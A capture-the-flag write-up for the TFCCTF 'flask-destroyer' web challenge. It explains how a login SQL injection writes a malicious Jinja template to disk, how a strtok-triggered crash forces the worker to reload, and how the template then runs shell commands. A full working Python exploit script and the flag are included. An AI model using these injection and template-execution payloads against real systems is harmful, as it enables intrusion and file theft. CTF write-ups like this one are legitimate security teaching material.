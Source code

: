 https://ctftime.org/event/2423

# flask-destroyer (web)

flask sqli

## Solution

There is an sqli on login, and `secure_file_priv = ""`.
So we can upload any file we want.

There is just the problem that flask hotloading is off, so we cannot load new templates.

The solution is crashing the worker so when it restarts it loads the new templates in.
The intented way to crash the worker is abusing `strtok` from libc, `asdsad:asda:` segfaults it

The full exploit then:
- upload template
- crash
- get new template

```python
#!/usr/bin/env python3
import requests
import time
import string
from urllib.parse import quote_plus

# REMOTE = "http://0.0.0.0:1337/"
REMOTE = "http://challs.tfcctf.com:32006/"

def create_file():
    payload = '''" UNION SELECT '{{ dict.__base__.__subclasses__()[379]("cat $(find /tmp -type f)",shell=True,stdout=-1).communicate()[0] }}', '', '' into outfile '/destroyer/app/templates/a.html'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })


def crash():
    payload = '''" UNION SELECT 'this works', 'sdsadasd', 'bla:'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })

def get():
    payload = '''" OR 1=1-- '''
    login = f'username=1&password={payload}&vibe=y'
    with requests.Session() as ses:
        ses.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        res = ses.get(REMOTE + 'a.html', proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        print(f"DEBUGPRINT[4]: go.py:37: res.text={res.text}")

create_file()
time.sleep(2)
crash()
time.sleep(5)
get()
```

## Flag
`TFCCTF{Cr4Sh_g0_bRbRbRbRbR}`

shafouz 2024/08/03
